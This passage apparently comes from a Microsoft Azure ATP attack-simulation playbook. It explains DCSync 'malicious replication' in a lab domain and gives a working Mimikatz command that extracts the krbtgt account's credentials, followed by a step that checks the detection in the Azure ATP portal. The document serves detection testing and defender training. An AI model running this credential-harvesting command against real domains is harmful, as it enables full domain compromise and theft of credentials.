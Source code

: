 ### Malicious Replication

Malicious replication allows an attacker to replicate user information using Domain Admin (or equivalent) credentials. Malicious replication essentially allows an attacker to remotely harvest a credential. Obviously, the most critical account to attempt to harvest is "krbtgt" as it's the master key used to sign all Kerberos tickets.

The two common hacking tool sets that allow attackers to attempt malicious replication are **Mimikatz**, and Core Security’s **Impacket**.

#### Mimikatz lsadump::dcsync

From the **VictimPC**, in context of **SamirA**, execute the following Mimikatz command:

``` cmd
mimikatz.exe "lsadump::dcsync /domain:contoso.azure /user:krbtgt" "exit" >> c:\temp\ContosoDC_krbtgt-export.txt
```

We've replicated the “krbtgt” account information to: c:\\temp\\ContosoDC_krbtgt-export.txt

![Malicious Replication via mimikatz](media/playbook-dominance-maliciousrep_mimikatz.png)

#### Malicious Replication Detection in Azure ATP

Using the Azure ATP portal, verify the SOC is now aware of the malicious replication we simulated from VictimPC.
